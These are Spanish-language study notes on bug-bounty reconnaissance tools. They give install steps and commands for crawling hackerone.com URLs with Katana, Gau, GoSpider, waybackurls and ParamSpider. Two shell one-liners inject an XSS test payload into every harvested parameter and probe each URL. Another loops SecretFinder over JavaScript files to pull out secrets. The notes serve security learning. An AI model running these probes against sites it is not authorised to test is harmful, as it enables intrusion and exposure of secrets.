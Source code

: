 ## [Katana](https://github.com/projectdiscovery/katana)

[Link Youtube](https://www.youtube.com/watch?v=iQctQx7PHos&ab_channel=BePractical)

Escanea la url en busca de links que se usan.

Instalación

```ruby
go install github.com/projectdiscovery/katana/cmd/katana@latest
mv ~/go/bin/katana /usr/local/bin
```

Forma de escanear una web traer todos los archivos

```ruby
katana -u https://hackerone.com -jc -o katana
```

Traer los archivos .js

```ruby
katana -u https://hackerone.com -jc | grep ".js$" | uniq | sort > katana_js.txt
```

## [Gau](https://github.com/lc/gau)

[Link Udemy](https://www.udemy.com/course/recon-for-bug-bounty-penetration-testers-ethical-hackers/learn/lecture/35453790#overview)

```ruby
sudo apt install gccgo-go
sudo apt-get install golang-go
go install github.com/lc/gau/v2/cmd/gau@latest
cd ~/go/bin
mv ~/go/bin/gau /usr/local/bin
```

Forma de usar el raspador de links

```ruby
sudo echo "hackerone.com" | gau > links_buscados.txt
```

Filtros

```ruby
cat links_buscados.txt | grep ? | tee hackerone_parameters.txt
cat links_buscados.txt | grep -E *[.]js | tee hackerone_parameters_js.txt
```

## [GoSpider](https://github.com/jaeles-project/gospider)

[Link Udemy](https://www.udemy.com/course/recon-for-bug-bounty-penetration-testers-ethical-hackers/learn/lecture/35453800#overview)

```ruby
sudo apt install gccgo-go
sudo apt-get install golang-go
GO111MODULE=on go install github.com/jaeles-project/gospider@latest
sudo mv ~/go/bin/gospider /usr/local/bin
```

Forma de usarlo

```ruby
gospider -w -s https://hackerone.com -o link_hackerone.txt
```

## [WaybackUrls](https://github.com/tomnomnom/waybackurls)

```ruby
sudo apt install gccgo-go
sudo apt-get install golang-go
go install github.com/tomnomnom/waybackurls@latest
sudo mv ~/go/bin/waybackurls /usr/local/bin
```

### [WayBack Burpsuite](https://www.udemy.com/course/recon-for-bug-bounty-pentesting-ethicalhacking-by-shifa-rohit-hacktify/learn/lecture/21762876#overview)

-> AQUI: busamos en el link lo siguiente: ?url=hackerone.com/  y procedemos a cambiarlo por la url que necesitemos buscar y la pegamos en el navegador.

```ruby
https://web.archive.org/web/timemap/json?url=hackerone.com/&fl=timestamp:4,original,urlkey&matchType=prefix&filter=statuscode:200&filter=mimetype:text/html&collapse=urlkey&collapse=timestamp:4&limit=100000
```

### [WayBack Automation](https://www.udemy.com/course/recon-for-bug-bounty-pentesting-ethicalhacking-by-shifa-rohit-hacktify/learn/lecture/21762880#overview)

[Link Udemy](https://www.udemy.com/course/recon-for-bug-bounty-pentesting-ethicalhacking-by-shifa-rohit-hacktify/learn/lecture/21762880#overview)

Es un script que lo hace de forma semi-manual
Buscamos url y le colocamos la palabra fuzz con el programa qsreplace.

```ruby
waybackurls hackerone.com | tee test_url.txt |  qsreplace '"><script>confirm(1)</script>' | tee  combinedfuzz.json  && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
```

## [Paramspider](https://github.com/devanshbatham/ParamSpider)

Paramspiderle permite recuperar URL relacionadas con cualquier dominio o una lista de dominios de Wayback Achives. Filtra las URL "aburridas", lo que le permite centrarse en las que más importan.

[Link Udemy](https://www.udemy.com/course/recon-for-bug-bounty-pentesting-ethicalhacking-by-shifa-rohit-hacktify/learn/lecture/21762882#overview)

```ruby
git clone https://github.com/devanshbatham/paramspider
cd paramspider
pip install .
sudo mv /home/kali/.local/bin/paramspider /usr/local/bin
```

Forma de uso de la herramienta.
Se crea una carpeta con todos los datos de saldia.

### ACA!

```ruby
paramspider -d hackerone.com --placeholder FUZZ
```

```ruby
paramspider -d hackerone.com
cat results/hackerone.com.txt | tee yy.json | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n"; done
```

### Una vez encontrada algunos links procedemos a inyectar payloads con la herramienta gf

## [gf](https://github.com/tomnomnom/gf)

[Link Udemy](https://www.udemy.com/course/recon-for-bug-bounty-penetration-testers-ethical-hackers/learn/lecture/35462246#overview)

```ruby
go install github.com/tomnomnom/gf@latest
sudo mv ~/go/bin/gf /usr/local/bin
mkdir ~/.gf
cp ~/go/pkg/mod/github.com/tomnomnom/gf@v0.0.0-20200618134122-dcd4c361f9f5/examples/* ~/.gf
git clone https://github.com/1ndianl33t/Gf-Patterns
mv ~/Gf-Patterns/*.json ~/.gf
```

# Buscador de Parametros

## [Secretfinder](https://github.com/m4ll0k/SecretFinder)

```ruby
git clone https://github.com/m4ll0k/SecretFinder.git secretfinder
cd secretfinder
python -m pip install -r requirements.txt | pip install -r requirements.txt
python3 SecretFinder.py
```

```ruby
cat katana_js.txt | while read url; do python3 /opt/secretfinder/SecretFinder.py -i $url -o cli >> secret.txt; done
```

## [Qsreplace](https://github.com/tomnomnom/qsreplace)
























